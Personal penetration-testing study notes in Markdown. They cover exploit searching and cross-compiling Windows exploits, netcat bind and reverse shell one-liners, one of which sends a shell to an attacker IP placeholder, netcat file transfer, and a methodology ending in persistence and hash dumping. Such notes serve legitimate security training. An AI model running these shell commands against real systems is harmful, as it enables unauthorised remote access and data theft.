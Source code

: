 # Searching for Exploit
- https://www.exploit-db.com/
- https://www.rapid7.com/db/
- https://packetstormsecurity.com/
- `searchexploit -u` -- to update the repository
- `searchexploit -m [ID of exploit]` -- to copy the exploit to current working dir

# Cross-Compiling Exploits
- Mingw-w64 -- for compiling win exploit in linux
	- `sudo apt-get install mingw-w64`
- `sudo apt-get install gcc`  -- for compiling c/c++ exploit
- windows exploit written in C; compile in linux
	- `i686-w64-mingw32-gcc exploit.c -o exploit` -- it will compile exe for 64 bit
	- `i686-w64-mingw32-gcc exploit.c -o exploit -lws2_32` -- it will compile exe for 32 bit

# Bind & Reverse Shells
######  Netcat
- `nc -nv IP PORT` -- for verbosity and no dns resolution
- to send file via nc
	- `nc -nlvp 1234 > test.txt` this on target machine to listen for connection
	- `nc -nv Ip 1234 < test.txt` this on attacker machine to connect and send file
###### Bind Shells
- A bind shell is a type of remote shell where the attacker connects directly to a listener on the target system, consequently allowing for execution of commands on the target system
- ![[bind shell.png]]
- `nc -nlvp 1234 -e cmd.exe` -- on target to listen and when someone connect execute cmd.exe
	- use `-c /bin/bash` if target is linux
- `nc -nv [target IP] 1234` -- on attacker
###### Reverse Shells
- A reverse shell is a type of remote shell where the target connects directly to a listener on the attacker’s system, consequently allowing for execution of commands on the target system.
- ![[reverse shell.png]]
- `nc -nlvp 1234` -- on attacker to listen
- `nc -nv [attacker IP] 1234 -e cmd.exe` -- on target to make connection
###### Cheatsheet
- https://github.com/swisskyrepo/PayloadsAllTheThings
- https://www.revshells.com/
# Black Box Methodology
-  Host discovery
- Port scanning & enumeration
- Vulnerability detection/scanning
- Exploitation
	- Manual
	- Automated
- Post Exploitation
-  Privilege Escalation
	- Persistence
	- Dumping Hashes

